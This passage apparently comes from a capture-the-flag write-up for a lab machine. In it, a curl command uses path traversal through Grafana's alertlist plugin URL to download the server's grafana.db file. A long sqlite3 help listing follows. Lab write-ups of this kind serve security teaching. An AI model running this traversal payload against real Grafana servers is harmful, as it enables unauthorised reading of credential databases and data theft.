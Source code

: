 Knowing the name of the database and having access to it through the alertlist plugin dump it via curl:

```bash
> curl --path-as-is http://amba.htb:3000/public/plugins/alertlist/../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

```sql
> sqlite3 grafana.db
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> .help
.archive ...            Manage SQL archives
.auth ON|OFF            Show authorizer callbacks
.backup ?DB? FILE       Backup DB (default "main") to FILE
.bail on|off            Stop after hitting an error. Default OFF
.binary on|off          Turn binary output on or off. Default OFF
.cd DIRECTORY           Change the working directory to DIRECTORY
.changes on|off         Show number of rows changed by SQL
.check GLOB             Fail if output since .testcase does not match
.clone NEWDB            Clone data into NEWDB from the existing database
.connection [close] [#] Open or close an auxiliary database connection
.databases              List names and files of attached databases
.dbconfig ?op? ?val?    List or change sqlite3_db_config() options
.dbinfo ?DB?            Show status information about the database
.dump ?OBJECTS?         Render database content as SQL
.echo on|off            Turn command echo on or off
.eqp on|off|full|...    Enable or disable automatic EXPLAIN QUERY PLAN
.excel                  Display the output of next command in spreadsheet
.exit ?CODE?            Exit this program with return-code CODE
.expert                 EXPERIMENTAL. Suggest indexes for queries
.explain ?on|off|auto?  Change the EXPLAIN formatting mode. Default: auto
.filectrl CMD ...       Run various sqlite3_file_control() operations
.fullschema ?--indent?  Show schema and the content of sqlite_stat tables
.headers on|off         Turn display of headers on or off
.help ?-all? ?PATTERN?  Show help text for PATTERN
.import FILE TABLE      Import data from FILE into TABLE
.imposter INDEX TABLE   Create imposter table TABLE on index INDEX
.indexes ?TABLE?        Show names of indexes
.limit ?LIMIT? ?VAL?    Display or change the value of an SQLITE_LIMIT
.lint OPTIONS           Report potential schema issues.
.load FILE ?ENTRY?      Load an extension library
.log FILE|off           Turn logging on or off. FILE can be stderr/stdout
.mode MODE ?OPTIONS?    Set output mode
.nonce STRING           Suspend safe mode for one command if nonce matches
.nullvalue STRING       Use STRING in place of NULL values
.once ?OPTIONS? ?FILE?  Output for the next SQL command only to FILE
.open ?OPTIONS? ?FILE?  Close existing database and reopen FILE
.output ?FILE?          Send output to FILE or stdout if FILE is omitted
.parameter CMD ...      Manage SQL parameter bindings
.print STRING...        Print literal STRING
.progress N             Invoke progress handler after every N opcodes
.prompt MAIN CONTINUE   Replace the standard prompts
.quit                   Exit this program
.read FILE              Read input from FILE or command output
.recover                Recover as much data as possible from corrupt db.
.restore ?DB? FILE      Restore content of DB (default "main") from FILE
.save ?OPTIONS? FILE    Write database to FILE (an alias for .backup ...)
.scanstats on|off       Turn sqlite3_stmt_scanstatus() metrics on or off
.schema ?PATTERN?       Show the CREATE statements matching PATTERN
.selftest ?OPTIONS?     Run tests defined in the SELFTEST table
.separator COL ?ROW?    Change the column and row separators
.sha3sum ...            Compute a SHA3 hash of database content
.shell CMD ARGS...      Run CMD ARGS... in a system shell
```